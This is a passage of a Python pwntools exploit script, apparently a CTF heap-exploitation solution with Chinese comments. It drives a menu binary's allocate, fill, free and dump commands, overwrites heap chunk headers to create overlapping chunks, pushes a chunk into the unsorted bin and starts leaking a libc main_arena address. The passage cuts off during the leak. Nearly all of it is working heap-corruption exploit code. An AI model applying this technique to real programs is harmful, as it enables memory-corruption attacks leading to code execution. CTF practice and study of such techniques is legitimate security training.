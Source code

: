 ```
    p.sendlineafter(b'Content: ',content)

def free(p,index):
    p.sendlineafter(b'Command: ',b"3")
    p.sendlineafter(b'Index: ',str(index))

def dump(p,index):
    p.sendlineafter(b'Command: ',b"4")
    p.sendlineafter(b'Index: ',str(index))

def main():
    p = conn()

    gdb_script = f'''
    '''

    allocate(p,0x10) # chunk 0 
    allocate(p,0x10) # chunk 1
    allocate(p,0x10) # chunk 2
    allocate(p,0x10) # chunk 3
    allocate(p,0x80) # chunk 4

    free(p,1)
    free(p,2)

    payload = p64(0)*3
    payload += p64(0x21)
    payload += p64(0)*3
    payload += p64(0x21)
    payload += p8(0x80)
    fill(p,0,payload)

    payload = p64(0)*3
    payload += p8(0x21)
    fill(p,3,payload)

    allocate(p,0x10) # index1指向chunk2
    allocate(p,0x10) # index2指向chunk4，由于chunk4并非常规free，还有原本的index4也指向chunk4

    # 改回chunk4的大小，为了其能被放入unsorted bin
    payload = p64(0) * 3
    payload += p64(0x91)
    fill(p,3,payload)

    ''' 
    由于chunk4接近top chunk
    为了能让其顺利进入unsorted bin（根据定义：该`chunk`不和`top chunk`紧邻时，
    该`chunk`会被首先放到unsorted bin中），先申请一个chunk5，让chunk4与top chunk分开
    '''
    allocate(p,0x80)

    # chunk4被放入unsorted bin
    free(p,4)

    offset_unsortedbin = 0x58
    offset_main_arena = libc.symbols['main_arena']

    dump(p,2)

    p.recvline(2)

    leak_bin1 = u64(p.recv(8))

```